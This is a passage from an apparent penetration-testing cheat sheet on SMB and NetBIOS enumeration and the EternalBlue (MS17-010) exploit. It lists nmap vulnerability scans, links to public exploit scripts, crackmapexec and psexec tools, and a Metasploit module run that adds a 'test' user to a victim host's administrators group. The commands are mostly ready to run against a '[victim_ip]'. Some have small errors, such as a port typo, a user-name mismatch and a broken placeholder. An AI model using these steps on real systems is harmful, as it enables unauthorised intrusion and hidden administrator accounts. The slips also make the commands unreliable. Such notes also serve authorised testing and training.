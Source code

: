 - Get a user info
```
queryuser <rid_number>
```

- Get a list of groups
```
enumdomgroups
```

- Get a group members
```
querygroup <rid_number>
```

#### NetBIOS_Service
scan NetBIOS name servers open on a local or remote TCP/IP network 
- nbtscan -r [victim_ip]

 
 ### smb password change
```
smbpasswd -r <victim_ip -U <user_name>
```

## Eternalblue

# What is a Eternalblue

- Eternalblue mmap scan:
```
nmap -v --script vuln [victim_ip] -p 445,139
nmap -sV -script smb-vuln-ms17-010.nse [victim_ip] -p 139,44
```

- Eternalblue scripts
```
https://github.com/worawit/MS17-010
https://github.com/3ndG4me/AutoBlue-MS17-010
https://github.com/sailay1996/eternal-pulsar
https://gist.github.com/thel3l/993f8ed81a56e10525dd4812ad01ff2a
https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/
```

#### crackmapexec
```
crackmapexec smb <victim_ip>
```

#### psexec
- Tool:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py
  - https://github.com/skalkoto/winexe
#### eternal_blue_metasploit
```
example one:
use auxiliary/admin/smb/ms17_010_command
set rhosts: [victim_ip]
set rport: 445
set command: net user test test123! /add
run
set command: net localgroup administrators tester /add
run

example two:
```